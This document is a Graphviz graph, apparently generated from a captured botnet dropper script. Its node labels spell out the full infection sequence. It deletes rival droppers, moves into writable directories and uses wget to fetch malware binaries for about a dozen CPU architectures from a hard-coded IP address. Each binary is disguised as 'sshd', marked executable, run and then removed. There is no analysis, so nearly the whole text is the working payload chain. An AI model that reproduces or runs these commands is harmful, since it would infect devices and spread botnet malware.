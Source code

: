 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="rm -fr jik* "];
2 -> 2
4 [label="rm -fr gtop.sh gtopb1.sh gtopb2.sh gtopb3.sh gtopb4.sh ftp.sh ftp0.sh ftpb1.sh ftpb2.sh ftpb3.sh ftpb4.sh tftpb1.sh tftpb2.sh ttftp1b1.sh ttftpb2.sh tttftp1b1.sh tttftp7.sh ftpm0.sh "];
4 -> 4
6 [label="rm -fr jackmy* poundmy* rapemy* smokemy* kekmy* breakmy* "];
6 -> 6
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 22 [label="||,"];
22 [label="wget http://146.185.129.74/jikmips "];
22 -> 24 [label=";,"];
24 [label="cat jikmips sshd "];
24 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 50 [label="||,"];
50 [label="wget http://146.185.129.74/jikmips64 "];
50 -> 52 [label=";,"];
52 [label="cat jikmips64 sshd "];
52 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 78 [label="||,"];
78 [label="wget http://146.185.129.74/jikmipsel "];
78 -> 80 [label=";,"];
80 [label="cat jikmipsel sshd "];
80 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 106 [label="||,"];
106 [label="wget http://146.185.129.74/jiksh2eb "];
106 -> 108 [label=";,"];
108 [label="cat jiksh2eb sshd "];
108 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 134 [label="||,"];
134 [label="wget http://146.185.129.74/jiksh2elf "];
134 -> 136 [label=";,"];
136 [label="cat jiksh2elf sshd "];
136 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 162 [label="||,"];
162 [label="wget http://146.185.129.74/jiksh4 "];
162 -> 164 [label=";,"];
164 [label="cat jiksh4 sshd "];
164 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 190 [label="||,"];
190 [label="wget http://146.185.129.74/jikx86 "];
190 -> 192 [label=";,"];
192 [label="cat jikx86 sshd "];
192 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 218 [label="||,"];
218 [label="wget http://146.185.129.74/jiki486 "];
218 -> 220 [label=";,"];
220 [label="cat jiki486 sshd "];
220 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 246 [label="||,"];
246 [label="wget http://146.185.129.74/jiki586 "];
246 -> 248 [label=";,"];
248 [label="cat jiki586 sshd "];
248 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 274 [label="||,"];
274 [label="wget http://146.185.129.74/jiki686 "];
274 -> 276 [label=";,"];
276 [label="cat jiki686 sshd "];
276 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 302 [label="||,"];
302 [label="wget http://146.185.129.74/jikpowerpc "];
302 -> 304 [label=";,"];
304 [label="cat jikpowerpc sshd "];
304 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 330 [label="||,"];
330 [label="wget http://146.185.129.74/jikpowerpc440fp "];
330 -> 332 [label=";,"];
332 [label="cat jikpowerpc440fp sshd "];
332 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 358 [label="||,"];
358 [label="wget http://146.185.129.74/jikm86k "];
358 -> 360 [label=";,"];
360 [label="cat jikm86k sshd "];
360 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 386 [label="||,"];
386 [label="wget http://146.185.129.74/jiksparc "];
386 -> 388 [label=";,"];
388 [label="cat jiksparc sshd "];
388 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 414 [label="||,"];
414 [label="wget http://146.185.129.74/jikarmv4 "];
414 -> 416 [label=";,"];
416 [label="cat jikarmv4 sshd "];
416 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 442 [label="||,"];
442 [label="wget http://146.185.129.74/jikarmv4tl "];
442 -> 444 [label=";,"];
444 [label="cat jikarmv4tl sshd "];
444 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 470 [label="||,"];
470 [label="wget http://146.185.129.74/jikarmv5 "];
470 -> 472 [label=";,"];
472 [label="cat jikarmv5 sshd "];
472 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 498 [label="||,"];
498 [label="wget http://146.185.129.74/jikarmv6 "];
498 -> 500 [label=";,"];
500 [label="cat jikarmv6 sshd "];
500 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
}
